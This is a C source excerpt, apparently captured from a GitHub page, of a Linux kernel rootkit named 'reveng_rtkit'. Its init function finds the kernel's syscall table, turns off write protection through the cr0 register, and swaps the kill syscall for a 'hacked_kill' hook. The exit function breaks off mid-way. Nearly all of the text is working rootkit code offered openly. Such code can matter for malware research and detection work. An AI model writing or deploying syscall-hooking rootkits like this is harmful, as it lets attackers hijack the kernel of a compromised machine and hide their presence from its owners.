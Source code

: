 ```c
                #include <linux/kernel.h>	/* Needed for printing log level messages */
                #include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
                #include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
                                           * To set those modified values we have to invoke commit_creds(). 
                                           * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
                #include "Test_hook_kill.h"


                /* Function Prototypes */

                static int      __init rootkit_init(void);
                static void     __exit rootkit_exit(void);


              // =================== Entry Function ====================

              static int __init rootkit_init(void)
              {
                printk(KERN_INFO "=================================================\n");
                printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
                printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

                __sys_call_table = get_syscall_table();
                if (!__sys_call_table)
                  return -1;

                printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);

                /* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
                *
                * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                *
                * unsigned long (*read_cr0)(void);
                */
                cr0 = read_cr0();

                // Storing original syscall
                orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

                unprotect_memory();

                // Editing syscall table targeting "kill" syscall with our created "hacked_kill".
                __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

                protect_memory();

                return 0;
              }

              // ========================== Exit Function ====================

              static void __exit rootkit_exit(void)
              {
                printk(KERN_INFO "\n=========================================\n");

                unprotect_memory();
```